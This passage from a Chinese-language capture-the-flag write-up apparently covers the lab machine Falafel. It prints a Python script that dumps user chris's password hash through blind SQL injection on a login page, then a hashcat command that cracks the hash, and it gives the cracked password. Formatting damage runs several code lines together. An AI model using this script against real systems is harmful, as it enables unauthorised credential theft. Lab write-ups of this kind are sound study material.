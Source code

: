 ## 获取 chris 密码哈希

不错:)我想我们找到了。我们现在可以创建一个自定义脚本来检索密码哈希。

```
**# falafel_sqli.py**import requests
import sysdef username_sqli(ip, username):
    for i in range(1,33): 
        for j in range(32,126):
            payload = "%s' and substring(password,%s,1) = '%s'-- -" % (username,i,chr(j))
            data = {'username':payload, 'password':'password'}
            #print(data)
            r = requests.post('http://%s/login.php' % ip, data = data)
            if "Wrong identification" in r.text:
                char = str(chr(j))
                if char >='A' and char <= 'Z':
                    continue
                else:
                    sys.stdout.write(char)
                    sys.stdout.flush()def main():
    if len(sys.argv) != 3:
        print("[INFO] Usage: %s <Target> <Username>" % sys.argv[0])
        print("[INFO] Example: %s 10.10.10.73 chris" % sys.argv[0])
        sys.exit()ip = sys.argv[1]
username = sys.argv[2]print("[INFO] Username: %s" % username)
    print("[INFO] MySQL Dumping Password Hash...")
    username_sqli(ip, username)
    print("\n[INFO] Done!")if __name__ == "__main__":
    main()
```

![](img/6228b0f3d6b1900fd2923f07e88390c2.png)

不错！现在，我们使用 hashcat 破解检索到散列，它破解了密码:`chris : juggling`

```
# hashcat -a 0 -m 0 chris.hash /usr/share/wordlists/rockyou.txt --force
```

![](img/a1f727c1e50275ec820121adcd7870dc.png)
